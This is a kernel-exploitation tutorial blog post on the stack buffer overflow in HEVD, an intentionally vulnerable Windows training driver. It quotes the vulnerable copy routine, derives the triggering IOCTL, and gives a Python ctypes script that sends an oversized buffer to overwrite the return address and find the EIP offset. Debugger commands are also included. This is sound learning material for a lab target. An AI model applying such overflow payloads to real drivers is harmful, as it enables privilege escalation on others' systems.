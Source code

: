 ```yaml
---
layout: post
title: "HEVD: Stack Overflow exploitation"
date: 2022-01-04 09:00:00 +0100
categories: [HEVD, Stack Overflow]
tags: [exploit, driver, x86, shellcode, kernel exploitation]
---
```



## <span class="myheader">Loading HEVD driver</span>

In this post we will be exploiting the Stack Overflow vulnerability in the [HEVD](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver) driver. Before that, I recommend to read the previous blogpost where I explain some basic concepts.

To load the driver, we download first the pre-built executable from [here](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver/releases) (or build it from source if you have too much time). Then, we download and run the [OSR Driver Loader](https://www.osronline.com/article.cfm%5earticle=157.htm) to load the driver in the debugee:

![OSR tool](/assets/img/osr_tool.png)
_OSR Driver Loader_

If all went well, we should see a new driver in the list of loaded modules:

![HEVD loaded](/assets/img/windbg_loaded_hevd.png)
_HEVD loaded in the debugee_

Red line marks memory address where the driver was loaded.


## <span class="myheader">Vulnerability</span>

Vulnerability exists in the [BufferOverflowStack.c](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver/blob/master/Driver/HEVD/Windows/BufferOverflowStack.c) file, in the <code>TriggerBufferOverflowStack</code> function:

```c
#ifdef SECURE
        //
        // Secure Note: This is secure because the developer is passing a size
        // equal to size of KernelBuffer to RtlCopyMemory()/memcpy(). Hence,
        // there will be no overflow
        //

        RtlCopyMemory((PVOID)KernelBuffer, UserBuffer, sizeof(KernelBuffer));
#else
        DbgPrint("[+] Triggering Buffer Overflow in Stack\n");

        //
        // Vulnerability Note: This is a vanilla Stack based Overflow vulnerability
        // because the developer is passing the user supplied size directly to
        // RtlCopyMemory()/memcpy() without validating if the size is greater or
        // equal to the size of KernelBuffer
        //

        RtlCopyMemory((PVOID)KernelBuffer, UserBuffer, Size);
```

Inspecting <code>else</code> condition, we notice that the <code>RtlCopyMemory</code> function copies full length of the supplied <code>UserBuffer</code> to the <code>KernelBuffer</code> leading to the stack buffer overflow vulnerability, as we are able to overwrite information on the stack and diverge the code execution from a current path to e.g. a shellcode. <code>Size</code> argument is not validated in any way and is equal to the size of the user supplied data:

```c
Size = IrpSp->Parameters.DeviceIoControl.InputBufferLength;
```

In the <code>SECURE</code> version, this is taken care of as max length of the copied data is not larger than the <code>KernelBuffer</code> itself as specified by the <code>sizeof</code> operator. 

## <span class="myheader">Exploitation</span>

To exploit this vulnerability we need to make the driver code follow the correct execution flow and reach the vulnerable code. Below we can observe in IDA Pro what is the path we need to take:

![IDA Stack BO path](/assets/img/ida_stackbo_path.png)
*stack buffer overflow path in IDA Pro*

<code>DriverEntry</code> is the first piece of code called after a driver is loaded. In the code there is also <code>IrpDeviceIoCtlHandler</code> function defined that handles incoming IOCTL control codes inside IRP packets.
Based on the information in the packet, function will redirect execution to the appropriate IOCTL handler - <code>BufferOverflowStackIoCtlHandler</code> in this case - which is a wrapper for <code>TriggerBufferOverflowStack</code> that contains the vulnerable code as described in the 'Vulnerability' section above.

Our next task is to determine what IOCTL needs to be send to trigger the vulnerability.

### <span class="myheader">IOCTL</span>

Let's have a look at the source code first.
<br>
<code>IrpDeviceIoCtlHandler</code> function uses *switch* statement to transfer control to a correct handler, depending on the IOCTL received:

![IrpDeviceIoCtlHandler source code](/assets/img/code_IrpDeviceIoCtlHandler.png)
*source code of the IrpDeviceIoCtlHandler*

Driver will execute the <code>BufferOverflowStackIoctlHandler</code> function, in case of *HEVD_IOCTL_BUFFER_OVERFLOW_STACK* value in the switch statement. *HEVD_IOCTL_BUFFER_OVERFLOW_STACK* is a macro that corresponds to the IOCTL with 0x800 function code in it. So in order to trigger the vulnerability, we need to use 0x800 in the IOCTL creation. Other IOCTL sections are constant: *FILE_DEVICE_UNKNOWN, METHOD_NEITHER, FILE_ANY_ACCESS*

![IOCTL definitions](/assets/img/code_IOCTL_definitions.png)
*IOCTL definitions*

This is how the disassembled <code>IrpDeviceIoCtlHandler</code> function code looks in IDA:

![IrpDeviceIoCtlHandler](/assets/img/ida_stackbo_flow.png)
*switch statement and IOCTL handler*

<code>0x222003</code> is deducted from the IOCTL value held in ECX and the result is loaded into EAX register (1). If the difference is larger than <code>0x6C</code>, program jumps to a different part of code to return *"[-] Invalid IOCTL Code: "* message. It means there are 109 possible IOCTL codes that will be accepted by the program, in the range <code>0x222003 - 0x22206f</code>.

<br>

If the difference is smaller or equal to <code>0x6C</code>, the IOCTL is used in the *jmp* instruction to jump to the correct offset from the jump table (2). In the bottom of the picture, we see code at one of the offsets that calls <code>BufferOverflowStackIoctlHandler</code>(3).

<br>

To create IOCTLs, we can use online IOCTL decoder [^1] and provide all values in the given range to see which ones fit our needs. If we put the first value, 0x222003, we see that this is the correct IOCTL to trigger stack buffer overflow:

![Online IOCTL decoder](/assets/img/online_ioctl_decoder.png)
*online IOCTL decoder*

We can also create IOCTL values from scratch with some Python code. To do that, we need look up hex values of the IOCTL constants (e.g. [here](https://github.com/tandasat/WinIoCtlDecoder/blob/master/plugins/WinIoCtlDecoder.py)): 
+ FILE_DEVICE_UNKNOWN = 0x22 
+ METHOD_NEITHER = 0x3
+ FILE_ANY_ACCESS = 0x0

From the [Primer](https://wojtekgoo.github.io/posts/A_Primer_On_Windows_Drivers/#fnref:4) we know that we have to move *Device Type* to the 16th bit, *Required Access* to the 14th bit, *Function Code* to 2nd and *Transfer Type* to the end:

```python
ioctl = hex((0x22 << 16) | (0x0 << 14) | (0x800 << 2) | 0x3)
```

### <span class="myheader">Exploit code</span>

With all the relevant information needed to trigger the vulnerability, we can build exploit. To develop exploit we will use <code>ctypes</code> library that allow Python code to call C functions and enable low-level memory manipulation.
<br>
To communicate, we need first to open a handle from userland to the target device using <code>CreateFile</code> API[^1], putting instead of file name name of the HEVD device, which we can get e.g. from the WinObj tool.

![Name of HEVD device](/assets/img/winobj_nameOfHevdDevice.png)
*device name in WinObj tool*

To send and receive messages to and from kernel driver, we can use <code>DeviceIoControl</code> API. Before we do that, we need to create proper IOCTL that will be dissected and understood by the HEVD device. We can use for that 

```python
import ctypes, sys, struct
from ctypes import *
from subprocess import *

kernel32 = windll.kernel32

# open handle to the device
hevd = kernel32.CreateFileW(
    "\\\\.\\HackSysExtremeVulnerableDriver",    # file name
    0xC0000000,     # access: GENERIC READ | GENERIC WRITE, bits 30 and 31 are set
    0,                                          
    None,
    0x3,            # action to take on a device: OPEN EXISTING 
    0,
    None
)
    
if (not hevd) or (hevd == -1):
    print("[-] Failed to retrieve handle: " + str(GetLastError()))
    sys.exit(1)

# malicious payload
payload = "A" * 0x900
payload_ptr = id(payload) + 20
payload_size = len(payload)

# send message to the device
kernel32.DeviceIoControl(
    hevd,               # device handle
    0x222003,           # IOCTL
    payload_ptr,            
    payload_size,       
    None,
    0,
    byref(c_ulong()),
    None
)
```

In WinDbg, in the debugger machine, we enable printing debug messages and put breakpoint at <code>TriggerBufferOverflowStack</code> function to see what happens when we execute above code.

```c
ed Kd_DEFAULT_Mask 8
!sym noisy
.reload /f *.*
bp HEVD!TriggerBufferOverflowStack
```

If there are no debug messages printed in the WinDbg output, try to run below command on the debuggee:

```c
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Debug Print Filter" /v DEFAULT /t REG_DWORD /d 0xf
```

When we execute the script, we can observe that our breakpoint is hit and return address is overwritten by our buffer. The driver printout states also that the *UserBuffer* size is 0x800 bytes only, but we copied there 0x900 bytes of the buffer,  modifying therefore the return address and causing crash

![BP triggered](/assets/img/windbg_bp_TriggerBufferOverflowStack.png)
![Buffer Overflow](/assets/img/windbg_stackBO.png)

Using e.g. *pattern_create* and *pattern_offset* tools from the Metasploit framework, we can find correct offset for EIP:

```python
...
# malicious payload
payload = "A" * 2076 + "BBBB" + "C"*224
payload_ptr = id(payload)+20
payload_size = len(payload)
...
```

![Buffer Overflow](/assets/img/windbg_correct_buffer_length.png)




## <span class="myheader">References<span>

[^1]: https://www.osronline.com/article.cfm%5earticle=229.htm
[^2]: https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilew